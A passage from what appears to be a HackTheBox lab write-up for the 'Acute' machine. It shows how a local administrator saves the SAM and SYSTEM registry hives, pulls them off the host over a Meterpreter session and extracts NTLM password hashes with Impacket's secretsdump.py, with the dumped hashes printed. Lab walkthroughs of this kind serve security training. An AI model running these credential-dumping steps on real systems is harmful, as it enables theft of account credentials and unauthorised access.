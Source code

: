     C:\Users\jmorgan\Documents>



Alternatively, I could modify it to add edavies to the administrators
group, and get equivalent access.

## Execution as awallace on ATSSERVER

### Get Password

#### Dump Hives

As a local administrator on Acute-PC01, jmorgan can create backups of
the registry hives:



    PS C:\Utils> reg save HKLM\sam sam.bak
    The operation completed successfully.
    PS C:\Utils> reg save HKLM\system sys.bak
    The operation completed successfully.



If I want copies, I have to create copies, as I can't directory open the
running hive files.

Since I have a Meterpreter session on the box, I'll use that to download
the files:



    meterpreter > download sam.bak
    [*] Downloading: sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
    [*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
    [*] download   : sam.bak -> ~/hackthebox/acute-10.10.11.145/sam.bak
    meterpreter > download sys.bak
    [*] Downloading: sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    [*] Downloaded 1.00 MiB of 11.58 MiB (8.64%): sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    ...[snip]...
    [*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak
    [*] download   : sys.bak -> ~/hackthebox/acute-10.10.11.145/sys.bak



#### Get Hashes

I'll use `secretsdump.py` (part of
[Impacket](https://github.com/SecureAuthCorp/impacket)) to get hashes
from these hives in `LOCAL` mode:



    oxdf@hacky$ secretsdump.py -sam sam.bak -system sys.bak LOCAL
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

    [*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
    Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
    [*] Cleaning up... 
